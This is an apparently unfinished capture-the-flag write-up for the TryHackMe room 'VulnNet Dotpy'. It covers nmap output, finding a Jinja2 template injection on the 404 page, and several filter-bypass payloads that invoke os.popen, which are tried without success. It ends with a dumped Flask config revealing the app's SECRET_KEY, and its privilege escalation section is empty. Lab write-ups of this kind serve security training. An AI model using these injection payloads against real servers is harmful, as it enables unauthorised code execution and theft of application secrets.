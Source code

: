 # Tryhackme.com Room : Vulnet Dotpy

`https://tryhackme.com/room/vulnnetdotpy`

## Instance

```bash
export IP="10.10.137.74"
```

## Nmap

```
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-methods:
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://10.10.137.74:8080/login
```

## Initial Foothold

When browsing the website, we get to a login screen.



There is a contact us link which link to `hello@vulnnet.com`

Let's add `vulnnet.com` to our host file.

Maybe this email address can be used to send an XSS payload later on ?



The forgot password link doesn't work, let's create a user

```
user:password
```

We get to an analytics dashboard named `staradmin`. 

but its just a template, we can't really do anything except logging out



When trying to access `vulnnet.com:8080/robots.txt` we get

```
INVALID CHARACTERS DETECTED
Your request has been blocked.
If you think this is an issue contact us at support@vulnnet.com
ID: 1c36bc623da792fa41c832ne 
```

Seems like this happen when `.txt` or `.php` is in the url.

Actually, seems like when we have a `.` followed by anything.

Actually, some `.html` file works, so seems like we get a `403` if we add an extension and the file doesn't exist. (Those route are also accessible without the `.html` ex : `/icons` & `/icons.html`)



We have the following `session` cookie:

```
.eJwtzjFuA0EIheG7TJ1igWEAX2Y1DCBbkRJp166i3N2rKOX7m_f9tL2OPO_t9jxe-dH2R7Rbgy6TS9MYN1YDHt7DSWXJlZkjXGxELYMcCj7QQhWJNTWzj6A-AWaw0IKcgkTMPLsz51iyIn1V1NBOJprhPjdMIVBA1V7tgrzOPP4111znUfvz-zO__nibKSwUVrJpOFDr-nSAtA6h3NHRK9rvG5W3Pmo.YIsm3w.CpnX_r4kvf7qwlVEBr84HkD_Uzo
```

Maybe this can tell us information on the framework used ?



We have control over the `email` variable which is printed in the profil popup.

Not vulnerable to xss, but might be vulnerable to template injection ?

didn't work with `{{7*7}}` and variations

Hmm, tried to inject the `username` as well but didn't work



If we put random values in the cookie we get at `403 Access denied` 



Lookig at the request headers we see that it is served by

```
Werkzeug/1.0.1 Python/3.6.9
```



We can get code execution on the `404` page ! 

`vulnet.com:8080/{{7*7}}` show `49`

`/{{}}` give us a `jinja2.exceptions.TemplateSyntaxError` stacktrace



The server run from `/home/web/shuriken-dotpy/app/home/routes.py`

We see the following code

```
try:
    if not template.endswith( '.html' ):
        template += '.html'
    return render_template( template )

except TemplateNotFound:
    s = request.path.strip("/")
    if "." in s or "_" in s or "[" in s or "]" in s:
        template = '''
```

We see that the following characters trigger the `INVALID characters` error :

```
.
_
[
]
```

We can execute code but we got to find a way to execute something usefull without these.. 

hmm might prove challenging...



Tried this

```
/{{import os; pwn=getattr(os,'popen');getattr(pwn('ls'),'read')()}}
```

seems like we can't have spaces



```
/{{getattr(getattr(os,'popen')('ls'),'read')()}}
```

getattr is undefined



```
/{{os|attr('popen')}}
```

We can access the attribute but `os` is undefined



hmm doesn't seem like we can `import` stuff inside jinja2...

Another way would be to access `__class__` attributes of string and retrive some function but we can't use `_` .

Hmmm



We can dump the config object

```
{
   'ENV':'production',
   'DEBUG':True,
   'TESTING':False,
   'PROPAGATE_EXCEPTIONS':None,
   'PRESERVE_CONTEXT_ON_EXCEPTION':None,
   'SECRET_KEY':'S3cr3t_K#Key',
   'PERMANENT_SESSION_LIFETIME':datetime.timedelta(31),
   'USE_X_SENDFILE':False,
   'SERVER_NAME':None,
   'APPLICATION_ROOT':'/',
   'SESSION_COOKIE_NAME':'session',
   'SESSION_COOKIE_DOMAIN':False,
   'SESSION_COOKIE_PATH':None,
   'SESSION_COOKIE_HTTPONLY':True,
   'SESSION_COOKIE_SECURE':False,
   'SESSION_COOKIE_SAMESITE':None,
   'SESSION_REFRESH_EACH_REQUEST':True,
   'MAX_CONTENT_LENGTH':None,
   'SEND_FILE_MAX_AGE_DEFAULT':datetime.timedelta(0,
   43200),
   'TRAP_BAD_REQUEST_ERRORS':None,
   'TRAP_HTTP_EXCEPTIONS':False,
   'EXPLAIN_TEMPLATE_LOADING':False,
   'PREFERRED_URL_SCHEME':'http',
   'JSON_AS_ASCII':True,
   'JSON_SORT_KEYS':True,
   'JSONIFY_PRETTYPRINT_REGULAR':False,
   'JSONIFY_MIMETYPE':'application/json',
   'TEMPLATES_AUTO_RELOAD':None,
   'MAX_COOKIE_SIZE':4093,
   'SQLALCHEMY_DATABASE_URI':'sqlite:////home/web/shuriken-dotpy/db.sqlite3',
   'SQLALCHEMY_TRACK_MODIFICATIONS':False,
   'SQLALCHEMY_BINDS':None,
   'SQLALCHEMY_NATIVE_UNICODE':None,
   'SQLALCHEMY_ECHO':False,
   'SQLALCHEMY_RECORD_QUERIES':None,
   'SQLALCHEMY_POOL_SIZE':None,
   'SQLALCHEMY_POOL_TIMEOUT':None,
   'SQLALCHEMY_POOL_RECYCLE':None,
   'SQLALCHEMY_MAX_OVERFLOW':None,
   'SQLALCHEMY_COMMIT_ON_TEARDOWN':False,
   'SQLALCHEMY_ENGINE_OPTIONS':{
      
   }
}
```



## Priv esc



## End

